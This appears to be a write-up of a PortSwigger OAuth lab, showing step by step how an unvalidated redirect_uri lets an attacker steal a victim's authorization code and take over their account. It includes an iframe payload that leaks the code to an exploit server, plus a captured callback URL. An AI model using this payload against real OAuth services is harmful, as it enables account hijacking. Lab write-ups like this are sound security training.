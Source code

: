 Log in and notice the redirect  uri
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6b8fda7e-4d48-4667-919c-b5b49671dcef)

Changed the redirect uri to your exploit server
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5d28ba7e-e62a-4900-b50a-e5b1a4671cd1)


Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/02c04549-6f16-4e8f-b9e6-b16331fb0885)



• Go back to the exploit server and create the following iframe at /exploit: 
```
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
``` 

From <https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri> 


```
<iframe src="https://oauth-0a20007b03ddb26680b183c7028600bf.oauth-server.net/auth?client_id=k2f0bq49yngz7cvmt5x75&redirect_uri=https://exploit-0aa100d103d7b2b880ac844a0181003a.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Our exploit 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/900988cc-17d2-4afb-8078-a7a2f9a9418d)


Deliever to victim
Our exploit code
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/75b567ad-4da2-449b-b1f9-5da1e2232737)


```
https://0a0f0087038db247808e859f00c30031.web-security-academy.net/oauth-callback?code=B8UavafeF9jyTwWlEbe-7X05Jk9ybh8gNPUajniI96r
```
Entering to log in
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/24cb863e-2f69-495e-ae64-9aceac2c8173)

